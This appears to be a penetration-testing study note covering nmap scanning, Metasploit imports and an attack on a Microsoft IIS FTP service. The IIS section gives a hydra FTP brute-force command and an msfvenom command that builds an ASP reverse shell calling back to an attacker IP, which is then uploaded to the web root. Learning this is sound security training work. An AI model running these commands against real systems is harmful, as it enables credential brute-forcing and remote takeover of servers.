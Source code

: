 ### Port Scanning & Enumeration ###

#### Identifying targets on the network ####
+ Can `cat /etc/host` to see hosts that have been discovered so far 
+ Can also scan local network with `nmap <IP>/CIDR` 
	+ Example `nmap 10.10.10.0/24` 
+ Will `ping` the target to verify its up 

#### Scanning the target ####
+ `nmap <IP>`
	+ `-T4` for a quick scan
	+ `-PA` ACK ping
	+ `-sC` default script scan
	+ `-sV` version detection 
	+ `-p` specify port, or port range: P_BEGIN-P_END, or -p-
	+ `-oX <FILENAME>` Export as XML
	+ `sU` to scan UDP ports 
+ Can use the <mark style="background: #ADCCFFA6;">browser</mark> for anything web 
+ Can use <mark style="background: #FFB86CA6;">netcat</mark> to do banner browsing on ports such as SSH

#### Import to MSF ####
+ `db_import /PATH/TO/FILE.xml` 
+ Can now use `hosts` to see hosts found, and `services` to see its services 
+ `smb_version` is a good <mark style="background: #FF5582A6;">metasploit module</mark> to quickly fingerprint a windows machines OS
+ MSF should have a unique workspace to stay organized

### Targeting Microsoft IIS FTP ###

#### Microsoft IIS ####
+ A web server used to host web applications 
	+ Microsoft FTP is part of the IIS package, and runs on port 21 on the same machine 
	+ An FTP credentials for this will very often be a IIS login as well 
	+ FTP IIS will very be the directory of the website, so can make changes to the resources on the website with FTP to manipulate the IIS website 

#### Methodology ####
+ Will first test <mark style="background: #FF5582A6;">anon login</mark> with `nmap -sV -p 21 --script=ftp-anon <IP>`
	+ or manually by doing `ftp <IP>` and then skip username and password 
+ Will now <mark style="background: #FF5582A6;">brute-force</mark> the login with <mark style="background: #D2B3FFA6;">hydra</mark> 
	+ `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <IP> ftp`
+ Can upload an asp <mark style="background: #FF5582A6;">payload</mark> for example if the FTP service connects to the IIS web directory 
	+ Will generate with `msfvenom -p windows/shell/reverse_tcp LHOST=<Attacker_IP> LPORT=1234 -f asp > shell.asp`
	+ Upload in FTP us done by <mark style="background: #FFF3A3A6;">put</mark>  and then the name of the file 
+ Can also download from the website with <mark style="background: #BBFABBA6;">get</mark>, and put it back with the same name 
